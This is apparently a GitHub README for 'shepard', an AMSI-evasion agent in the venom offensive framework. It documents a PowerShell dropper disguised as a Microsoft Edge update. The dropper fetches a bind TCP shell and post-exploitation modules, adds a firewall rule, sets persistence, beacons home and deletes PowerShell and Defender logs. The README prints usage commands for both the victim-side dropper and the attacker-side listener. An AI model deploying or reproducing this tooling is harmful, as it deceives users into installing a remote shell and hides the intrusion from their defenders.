 ## :octocat: sherpard ( BindTCPshell ) - [@venom](https://github.com/r00t-3xp10it/venom) Amsi Evasion Agent nº9

<br />

Author: @d3adzo ( BindShell ) | @r00t-3xp10it<br />
Tested Under: Windows 10 ( 19042 ) x64 bits<br />
Required Dependencies: <b><i>Invoke-WebRequest</i></b> {native} , <b><i>python3</i></b> {attacker machine}<br />
Optional Dependencies: <b><i>netsh advfirewall</i></b> {native} , <b><i>ComputerDefaults.exe</i></b> {native}<br />
Sherpard GitHub: https://github.com/d3adzo/shepard<br />

<br />

## :octocat: shepard - C2 droppers Description
This PS dropper later compiled to binary.exe uses <b><i>Social Engineering</i></b> to trick target user into beliving he is installing a MicrosoftEdge update<br />while in background downloads the <b><i>[BindTCPshell](https://github.com/d3adzo/shepard)</i></b> and <b><i>[redpill](https://github.com/r00t-3xp10it/redpill)</i></b> post-exploitation auxiliary module before adds a <b><i>[firewall rule](https://user-images.githubusercontent.com/23490060/121229553-04678c80-c886-11eb-8cfd-2f82a40c4e2b.png)</i></b> to prevent client execution TCP connection warnings. Then executes the BindTCPshell in a background process. ( The Client beacons home every 30 seconds )

![secupdate](https://user-images.githubusercontent.com/23490060/121434739-aca84e80-c975-11eb-9110-ca78a69c6f74.png)<br /><br />

<br /><br />

## :octocat: Dropper|Client Execution Diagram
![diagram](https://user-images.githubusercontent.com/23490060/121988665-a8739b00-cd92-11eb-803b-e4480356bf2a.png)

<br />

**Executing Dropper (target):** The Social Engineering binary accepts the use of parameters and arguments. Example:
```powershell
.\MEdgeUpdaterService.exe -OutFile "$env:TMP\Payload.exe" -PostExploit True -Firewall True -Persiste True
```
![def](https://user-images.githubusercontent.com/23490060/121764725-f348a500-cb3d-11eb-9790-408395318934.png)
  - [x] <b><i>Remark:</i></b>  If executed without any <b><i>-parameters 'arguments'</i></b>, then the dropper will use internal default settings to run.<br />
  - [x] <b><i>Remark:</i></b> The dropper will <b><i>'download\execute the Client in background'</i></b> without any terminal console beeing spawned to target user.<br />
  - [x]  <b><i>Remark:</i></b> ALL droppers will delete logfiles from '<b><i>windows powershell</i></b>', '<b><i>Defender\Operational</i></b>', etc. if they are executed with admin privileges.

<br />

<b><i>Executing Server (attacker):</i></b> to recive the connection back
```cmd
python3 shepardsbind_recv.py <target IP>
```
![um](https://user-images.githubusercontent.com/23490060/121764609-29d1f000-cb3d-11eb-94b0-a3fb0dffe36c.png)
